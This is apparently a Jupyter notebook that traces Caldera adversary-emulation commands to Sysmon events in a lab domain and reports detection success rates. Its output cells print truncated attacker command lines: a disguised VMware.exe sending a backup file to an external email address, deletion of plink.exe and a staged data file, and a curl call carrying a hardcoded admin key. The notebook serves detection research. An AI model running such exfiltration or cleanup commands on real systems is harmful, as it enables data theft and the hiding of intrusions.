

In [221]:
# Process Entry 44
entry_44_result = process_individual_entry(
    entry_id=44,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 45
📋 Entry Information:
   Command: C:\ProgramData\VMware\VMware.exe  --path="sitedata.bak" --to="dungeon@shirinfarhad.com" --from="gost...
   Finished Time: 2025-05-04 12:25:18.000000
   Computer: endofroad.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: C:\ProgramData\VMware\VMware.exe  --path="sitedata.bak" --to="dungeon@shirinfarhad.com" --from="gost...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:46.651] [INFO] Starting detection for Entry 45
[DEBUG] [03:29:46.652] [INFO] Entry 45: 2025-05-04 12:25:18, totem: 'C:\ProgramData\VMware\VMware.exe --path=sitedata.b...'
[DEBUG] [03:29:46.652] [INFO] Searching for totem matches: EventID 1, Computer endofroad.boombox.local
[DEBUG] [03:29:46.652] [INFO] Time window filtering: 2025-05-04 12:22:18 to 2025-05-04 12:28:18
[DEBUG] [03:29:46.680] [INFO] Events afte



In [222]:
# Process Entry 45
entry_45_result = process_individual_entry(
    entry_id=45,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 46
📋 Entry Information:
   Command: C:\ProgramData\VMware\VMware.exe...
   Finished Time: 2025-05-04 12:26:20.000000
   Computer: endofroad.boombox.local
   Suggested EventID: 23

🎯 Detection Parameters:
   Method Type: type2b
   EventID: 23
   Search Column: TargetFilename
   Search Value: C:\ProgramData\VMware\VMware.exe...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:49.622] [INFO] Starting detection for Entry 46
[DEBUG] [03:29:49.622] [INFO] Entry 46: 2025-05-04 12:26:20, totem: 'C:\ProgramData\VMware\VMware.exe...'
[DEBUG] [03:29:49.622] [INFO] Searching for totem matches: EventID 23, Computer endofroad.boombox.local
[DEBUG] [03:29:49.623] [INFO] Time window filtering: 2025-05-04 12:23:20 to 2025-05-04 12:29:20
[DEBUG] [03:29:49.651] [INFO] Events after computer/eventid/time filter: 24
[DEBUG] [03:29:49.653] [INFO] Totem matches found: 1
[DEBUG] [03:29:49.653] [INFO] Single match found - auto-sel



In [223]:
# Process Entry 46
entry_46_result = process_individual_entry(
    entry_id=46,
    method_type="type2b",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 47
📋 Entry Information:
   Command: C:\Windows\System32\mom64.exe...
   Finished Time: 2025-05-04 12:26:20.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 23

🎯 Detection Parameters:
   Method Type: type2b
   EventID: 23
   Search Column: TargetFilename
   Search Value: C:\Windows\System32\mom64.exe...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:49.901] [INFO] Starting detection for Entry 47
[DEBUG] [03:29:49.902] [INFO] Entry 47: 2025-05-04 12:26:20, totem: 'C:\Windows\System32\mom64.exe...'
[DEBUG] [03:29:49.902] [INFO] Searching for totem matches: EventID 23, Computer waterfalls.boombox.local
[DEBUG] [03:29:49.902] [INFO] Time window filtering: 2025-05-04 12:23:20 to 2025-05-04 12:29:20
[DEBUG] [03:29:49.932] [INFO] Events after computer/eventid/time filter: 29
[DEBUG] [03:29:49.933] [INFO] Totem matches found: 1
[DEBUG] [03:29:49.933] [INFO] Single match found - auto-selecting




In [224]:
# Process Entry 47
entry_5_result = process_individual_entry(
    entry_id=47,
    method_type="type2b",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 48
📋 Entry Information:
   Command: C:\Windows\Temp\Nt.dat...
   Finished Time: 2025-05-04 12:26:20.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 23

🎯 Detection Parameters:
   Method Type: type2b
   EventID: 23
   Search Column: TargetFilename
   Search Value: C:\Windows\Temp\Nt.dat...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:50.167] [INFO] Starting detection for Entry 48
[DEBUG] [03:29:50.168] [INFO] Entry 48: 2025-05-04 12:26:20, totem: 'C:\Windows\Temp\Nt.dat...'
[DEBUG] [03:29:50.168] [INFO] Searching for totem matches: EventID 23, Computer waterfalls.boombox.local
[DEBUG] [03:29:50.168] [INFO] Time window filtering: 2025-05-04 12:23:20 to 2025-05-04 12:29:20
[DEBUG] [03:29:50.196] [INFO] Events after computer/eventid/time filter: 29
[DEBUG] [03:29:50.197] [INFO] Totem matches found: 1
[DEBUG] [03:29:50.197] [INFO] Single match found - auto-selecting
[DEBUG] [03:29:50.198



In [225]:
# Process Entry 48
entry_48_result = process_individual_entry(
    entry_id=48,
    method_type="type2b",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 49
📋 Entry Information:
   Command: C:\Windows\System32\ps.exe...
   Finished Time: 2025-05-04 12:26:20.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 23

🎯 Detection Parameters:
   Method Type: type2b
   EventID: 23
   Search Column: TargetFilename
   Search Value: C:\Windows\System32\ps.exe...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:50.432] [INFO] Starting detection for Entry 49
[DEBUG] [03:29:50.432] [INFO] Entry 49: 2025-05-04 12:26:20, totem: 'C:\Windows\System32\ps.exe...'
[DEBUG] [03:29:50.432] [INFO] Searching for totem matches: EventID 23, Computer waterfalls.boombox.local
[DEBUG] [03:29:50.433] [INFO] Time window filtering: 2025-05-04 12:23:20 to 2025-05-04 12:29:20
[DEBUG] [03:29:50.460] [INFO] Events after computer/eventid/time filter: 29
[DEBUG] [03:29:50.462] [INFO] Totem matches found: 1
[DEBUG] [03:29:50.462] [INFO] Single match found - auto-selecting
[DEBUG] [



In [226]:
# Process Entry 49
entry_49_result = process_individual_entry(
    entry_id=49,
    method_type="type2b",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 50
📋 Entry Information:
   Command: del C:\Users\gosta\AppData\Roaming\fsociety.dat C:\Users\Public\Downloads\plink.exe;...
   Finished Time: 2025-05-04 12:26:58.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: del C:\Users\gosta\AppData\Roaming\fsociety.dat C:\Users\Public\Downloads\plink.exe;...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:50.697] [INFO] Starting detection for Entry 50
[DEBUG] [03:29:50.697] [INFO] Entry 50: 2025-05-04 12:26:58, totem: 'del C:\Users\gosta\AppData\Roaming\fsociety.dat C:...'
[DEBUG] [03:29:50.697] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:50.698] [INFO] Time window filtering: 2025-05-04 12:23:58 to 2025-05-04 12:29:58
[DEBUG] [03:29:50.726] [INFO] Events after computer/eventid/time filter: 5




In [227]:
# Process Entry 50
entry_50_result = process_individual_entry(
    entry_id=50,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 51
📋 Entry Information:
   Command: curl -s -H "KEY:ADMIN123" -H "Content-Type: application/json" -X PATCH http://192.168.0.4:8888/api/v...
   Finished Time: 2025-05-04 12:28:02.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: curl -s -H "KEY:ADMIN123" -H "Content-Type: application/json" -X PATCH http://192.168.0.4:8888/api/v...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:51.172] [INFO] Starting detection for Entry 51
[DEBUG] [03:29:51.173] [INFO] Entry 51: 2025-05-04 12:28:02, totem: 'curl -s -H KEY:ADMIN123 -H Content-Type: applicati...'
[DEBUG] [03:29:51.173] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:51.173] [INFO] Time window filtering: 2025-05-04 12:25:02 to 2025-05-04 12:31:02
[DEBUG] [03:29:51.201] [INFO] Events after 



In [228]:
# Process Entry 51
entry_51_result = process_individual_entry(
    entry_id=51,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)

## 7. Continue Processing Remaining Entries

Add more cells below to process entries 6-51. Each entry can be processed individually with custom parameters.

**Template for additional entries:**

```python
# Process Entry X
entry_X_result = process_individual_entry(
    entry_id=X,
    method_type="type1",  # or "type2a", "type2b", "auto"
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)
```

**Common method types based on old notebook:**
- **Entry 24, 29, 36, 37, 38, 41, 44**: Use `method_type="type2a"` (File Creation)
- **Entry 46, 47, 48, 49**: Use `method_type="type2b"` (File Deletion)
- **All other entries**: Use `method_type="type1"` (Command Execution)

**Add individual entry processing cells below:**

## 8. Summary Analysis

Collect and analyze the results from all processed entries.

In [ ]:
# Collect all results
all_results = []
result_vars = []

# Manually collect the result variables that exist
for i in range(52):  # 0 to 51 entries
    var_name = f'entry_{i}_result'
    if var_name in locals() and locals()[var_name] is not None:
        result_vars.append(var_name)
        all_results.append(locals()[var_name])

print(f"\n📊 Processing Summary")
print("=" * 60)
print(f"Total entries processed: {len(all_results)}")

# Calculate success statistics
successful_results = [r for r in all_results if r.success]
print(f"Successful detections: {len(successful_results)}")
print(f"Success rate: {len(successful_results)/len(all_results)*100:.1f}%")

# Calculate total matches
total_matches = sum(r.matches_found for r in successful_results)
print(f"Total matches found: {total_matches}")

# Method type analysis
method_stats = {}
for result in all_results:
    method = result.method_type
    if method not in method_stats:
        method_stats[method] = {'total': 0, 'success': 0, 'matches': 0}
    method_stats[method]['total'] += 1
    if result.success:
        method_stats[method]['success'] += 1
        method_stats[method]['matches'] += result.matches_found

print(f"\n📈 Results by Method Type:")
for method, stats in method_stats.items():
    success_rate = (stats['success'] / stats['total']) * 100
    print(f"   {method}: {success_rate:.1f}% success ({stats['success']}/{stats['total']}),{stats['matches']} matches")


📊 Processing Summary
Total entries processed: 49
Successful detections: 48
Success rate: 98.0%
Total matches found: 77

📈 Results by Method Type:
   type1: 97.4% success (38/39), 67 matches
   type2b: 100.0% success (4/4), 4 matches
   type2a: 100.0% success (6/6), 6 matches


## 9. Custom Entry Processing

Use this section to process specific entries with custom parameters for detailed investigation.

In [ ]:
# Example: Process a specific entry with custom parameters
# Uncomment and modify as needed for detailed investigation

# custom_result = process_individual_entry(
#     entry_id=15,  # Entry to investigate
#     method_type="type1",
#     time_window_before=300,  # Longer time window
#     time_window_after=300,
#     show_arrows=True,        # Show connection arrows
#     enable_recursive=True    # Enable recursive tracing
# )

## 10. Conclusions

Summary of the individual entry processing results and key findings.

In [230]:
print("\n🎯 Analysis Conclusions")
print("=" * 80)

print(f"\n🔍 Key Findings:")
print(f"   • Individual entry processing allows for detailed investigation of each Caldera command")
print(f"   • The improved event tracer provides more robust detection with better error handling")
print(f"   • Interactive processing enables step-by-step analysis of attack progression")
print(f"   • Configuration-driven parameters allow for fine-tuning detection algorithms")
print(f"   • Multi-type detection (CommandLine, File Create/Delete) provides comprehensive coverage")

print(f"\n📊 Processing Results:")
if len(all_results) > 0:
    successful_results = [r for r in all_results if r.success]
    total_matches = sum(r.matches_found for r in successful_results)
    print(f"   • Total entries processed: {len(all_results)}")
    print(f"   • Success rate: {len(successful_results)/len(all_results)*100:.1f}%")
    print(f"   • Total Sysmon events matched: {total_matches:,}")
    if len(successful_results) > 0:
        print(f"   • Average matches per successful detection: {total_matches/len(successful_results):.1f}")
else:
    print(f"   • No entries processed yet - run the individual entry cells above")

print(f"\n🚀 Advantages of Individual Processing:")
print(f"   ✅ Interactive analysis with step-by-step investigation")
print(f"   ✅ Ability to adjust parameters per entry")
print(f"   ✅ Detailed examination of detection results")
print(f"   ✅ Educational value for understanding event correlation")
print(f"   ✅ Immediate feedback and visualization per entry")

output_dir = get_config_value('output.directory', '5_entry-events-plots')
print(f"\n📁 Generated plots saved to: {output_dir}")
print(f"\n🎉 Individual entry analysis completed!")


🎯 Analysis Conclusions

🔍 Key Findings:
   • Individual entry processing allows for detailed investigation of each Caldera command
   • The improved event tracer provides more robust detection with better error handling
   • Interactive processing enables step-by-step analysis of attack progression
   • Configuration-driven parameters allow for fine-tuning detection algorithms
   • Multi-type detection (CommandLine, File Create/Delete) provides comprehensive coverage

📊 Processing Results:
   • Total entries processed: 49
   • Success rate: 98.0%
   • Total Sysmon events matched: 77
   • Average matches per successful detection: 1.6

🚀 Advantages of Individual Processing:
   ✅ Interactive analysis with step-by-step investigation
   ✅ Ability to adjust parameters per entry
   ✅ Detailed examination of detection results
   ✅ Educational value for understanding event correlation
   ✅ Immediate feedback and visualization per entry

📁 Generated plots saved to: 5_entry-events-plots

🎉 Indiv